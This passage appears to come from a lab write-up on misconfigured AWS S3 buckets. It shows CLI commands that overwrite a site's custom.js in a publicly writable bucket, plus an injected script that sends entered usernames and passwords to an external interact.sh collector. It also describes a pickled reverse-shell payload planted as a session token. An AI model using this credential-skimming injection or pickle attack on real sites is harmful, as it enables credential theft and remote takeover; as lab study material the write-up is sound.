 Therefore, anyone can add to or edit the content. An example would be to carry out an XSS attack. The source code of the main website uses a `custom.js` code which is situated in the static content bucket. This can be edited due to the policy and introduce an XSS bug.

List the javascript files in the static buckets using the following code &rarr;

```bash
awsn s3api list-objects --bucket s3-file-load-static-431664597780 --prefix "static/javascript"
```

The modified javascript file can be uploaded as follows &rarr;

```bash
awsn s3api put-object --bucket s3-file-load-static-108536353935 --key "static/javascript/custom.js" --body custom.js
```

The edited javascript can be seen below &rarr;

```javascript
function makeRequest() {
    var xhttp = new XMLHttpRequest();

    xhttp.onreadystatechange = function() {
      if (this.readyState == 4 && this.status == 200) {
        document.getElementById("output").innerHTML = this.responseText;
      }
      if (this.readyState == 4 && this.status != 200) {
        document.getElementById("output").innerHTML = "Invalid Credentials";
      }
    };
    var url = 'https://ahyk95vfo5.execute-api.us-west-2.amazonaws.com/dev?username=' + $('#pi3').val() + '&password=' + $('#pi4').val();
    xhttp.open("GET", url, true);
    xhttp.send();
    document.getElementById("output").innerHTML = "<img src='http://c9et0w32vtc0000btwzggrzpyqryyyyyb.interact.sh/creds?username=' + $('#pi3').val() + '&password=' + $('#pi4').val() />";
    alert("XSS");
}
```

---

## Python Object Store

The lab gives a web server running from S3 which has public access to listing the `assets` bucket which also contains information about sessions. Each session is represented by a token which basically holds the credentials of the service in a python pickle format. A payload for a reverse shell can be pickled in python and uploaded in place of the session such that when the web session reloads, the session will launch a reverse shell if the attacker machine is listening. With the shell, root privileges are obtained and can be used to retrieve the flag.

---
